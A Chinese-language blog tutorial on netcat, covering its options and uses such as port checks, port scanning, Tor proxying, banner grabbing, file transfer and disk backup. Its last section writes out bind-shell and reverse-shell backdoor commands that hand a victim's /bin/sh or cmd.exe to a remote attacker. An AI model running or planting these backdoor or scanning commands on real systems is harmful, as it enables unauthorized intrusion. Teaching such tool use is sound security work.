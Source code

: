 ```yaml
---

title: netcat使用教程
tags:
  - Linux
  - shell
  - netcat
  - 信息安全
  - 网络
categories:
  - 信息安全
  - 教程
date: 2019-09-21

---
```


## netcat使用教程

@author linjinbao666@gmail.com [fork me on github](https://github.com/linjinbao666)

## netcat简介

netcat 一般简称为 nc，直译为中文就是“网猫”，被誉为——【**网络上的瑞士军刀**】。它诞生于1995年，在网络安全社区的名气很大（就如同 AK47 在军事领域的名气）。长期在安全圈内混的人，应该都知道它。想当年，insecure.org 网站在本世纪初搞过几次“年度投票”，评选优秀的安全工具。每次投票，netcat 都能排进前几名。[参考链接](https://en.wikipedia.org/wiki/Netcat)

## nc命令行简介

形式： **nc 命令选项 主机 端口** 命令选项 这部分可能包含 0~N 个选项 （注：这部分最复杂，下一个小节单独聊） 主机 这部分可能没有，可能以“点分十进制”形式表示，也可能以“域名”形式表示。 端口 这部分可能没有，可能是单个端口，可能是端口范围（以减号分隔）
举例：

```text
nc -l -p 12345 -v
```

在这个例子中，分别用到了三个选项（l、v、p），其中 12345 是选项 p 所带的【选项值】

## 常用的命令行选项

| 选项 | 是否有选项值 | 说明 |
| :--- | :--- | ---: |
| h | NO | 输出 nc 的帮助 |
| v | NO | 在网络通讯时，显示详细的输出信息 |
注：建议新手多用该选项，出错时帮你诊断问题\| \| n\| No\| 对命令行中的“主机”，【不】进行域名解析 \| \| p \| YES \| 指定“端口号” \|
命令行合写形式：

```text
nc -lp 12345 -v
nc -l -v -p 12345
nc -lv -p 12345
nc -lvp 12345
```

## 使用场景一：（网络诊断）测试某个远程主机的【监听】端口是否可达

```text
nc -nv x.x.x.x xx
```

```text
[root@localhost netcat]# netcat -nv 172.19.66.61 8080
172.19.66.61 8080 (webcache) open
^CExiting.
[root@localhost netcat]# netcat -nv 172.19.66.61 22
172.19.66.61 22 (ssh) open
SSH-2.0-OpenSSH_6.6.1
^CExiting.
[root@localhost netcat]# 80/epoint-web-zwdt
```

## 使用场景二：（网络诊断）判断防火墙是否“允许 or 禁止”某个端口

```text
nc -lv -p 8080
```

```text
[root@jk-zhengwu01 ~]# nc -lv -p 8080
Ncat: Version 7.50 ( https://nmap.org/ncat )
Ncat: bind to :::8080: Address already in use. QUITTING.
[root@jk-zhengwu01 ~]# clear
[root@jk-zhengwu01 ~]# nc -lv -p 8090
Ncat: Version 7.50 ( https://nmap.org/ncat )
Ncat: Listening on :::8090
Ncat: Listening on 0.0.0.0:8090
Ncat: Connection from 192.168.30.40.
Ncat: Connection from 192.168.30.40:64216.
GET / HTTP/1.1
Host: 172.19.66.60:8090
Connection: keep-alive
DNT: 1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.75 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: epoint_local=zh_CN; _theme_=dream; isnormal=1; e596eeb6-5835-4f37-b53c-c56492c4ae16=; f893945b-d030-4007-af87-b7692d468c37=; m=2258:Z3Vlc3Q6Z3Vlc3Q%253D; areacode=110118

[root@jk-zhengwu01 ~]#
```

## 使用场景三：（渗透测试）用 nc 玩“端口扫描”

```text
netcat -znv x.x.x.x 1-1024
netcat -znv x.x.x.x 1-1024  2>&1 | grep succeeded
```

```text
[root@localhost ~]# nc -nv -w 1 -z 172.19.66.61 1-100
172.19.66.61 22 (ssh) open
^CExiting.
[root@localhost ~]# nc -nv -w 1 -z 172.19.66.61 8080
172.19.66.61 8080 (webcache) open
[root@localhost ~]# nc -nv -w 1 -z 172.19.66.61 22 8080
172.19.66.61 22 (ssh) open
172.19.66.61 8080 (webcache) open
[root@localhost ~]#
```

## 使用场景四：（隐匿性）如何让 nc 走暗网（以 Tor 为例）

```text
netcat -X 5 -x 127.0.0.1:1080 -v 172.19.66.61 8080
PS：netcat版本不够，不便测试
```

## 使用场景五：（信息收集）用 nc 探测“服务器类型”和“软件版本”（以 SSH 为例）

```text
echo "EXIT" | nc-tor -vq 5 -n 服务器IP 22
```

```text
[root@localhost ~]# echo "EXIT" | netcat -v ssh.github.com 22
ssh.github.com [192.30.253.122] 22 (ssh) open
SSH-2.0-babeld-dae25663
[root@localhost ~]#
```

## 使用场景六：（系统管理）用 nc 传输文件

```text
接收端：
nc -l -p xxx > file2
发送端：
nc x.x.x.x xxx < file1
```

## 使用场景七：（系统管理）用 nc 远程备份整个磁盘

```text
接收端：
nc -l -p xxx | dd of=/dev/sdb
发送端：
dd if=/dev/sda | nc x.x.x.x xxx
```

## 使用场景八：（入侵手法）用 nc 开启连接型后门

1.被动型

```text
被攻击对象：
nc.exe -l -p xxx -e cmd.exe
nc -l -p xxx -e /bin/sh
```

2.主动型

```text
被攻击对象
nc.exe -e cmd.exe x.x.x.x xxx
nc -e /bin/sh x.x.x.x xxx
```

后门创建好之后，攻击者在自己机器上也运行 nc（客户端 nc），然后连接到作为后门的 nc（服务端 nc）。一旦连上之后，攻击者就可以在自己的 nc 上看到对方（受害者机器）的 shell 提示符。
